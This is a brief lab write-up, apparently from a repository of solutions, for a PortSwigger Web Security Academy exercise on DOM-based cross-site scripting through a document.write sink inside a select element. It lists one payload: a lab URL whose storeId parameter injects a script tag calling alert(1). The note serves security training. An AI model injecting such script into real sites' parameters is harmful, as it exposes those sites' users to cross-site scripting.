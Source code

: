 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

## Payload

URL : `https://0a3200c203a355fc815e484400a100f9.web-security-academy.net/product?productId=2&storeId=<script>alert(1);</script>`